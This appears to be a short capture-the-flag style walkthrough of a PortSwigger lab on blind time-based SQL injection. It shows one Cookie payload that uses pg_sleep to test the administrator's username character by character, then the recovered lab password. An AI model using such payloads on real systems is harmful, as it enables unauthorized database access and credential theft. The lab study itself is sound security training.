 # Lab: Blind SQL injection with time delays and information retrieval

URL: https://0a9c006003fccb9f8160344a00ed00e4.web-security-academy.net/

![](./Images/img1.png)

# Preparation:

Payload:

```
Cookie: TrackingId='||+(SELECT+CASE+WHEN+(username+like('a%25'))+THEN+pg_sleep(10)ELSE+pg_SLEEP(0)+END+from+users+where+username='administrator')+--+-
```

![](./Images/img2.png)

# Getting the User:

We will use the script from Time Based1.

![](./Images/img3.png)

# Getting the Password:

Password:

```
679441m9gg6gd985fztl
```

![](./Images/img4.png)

<br>

![](./Images/img5.png)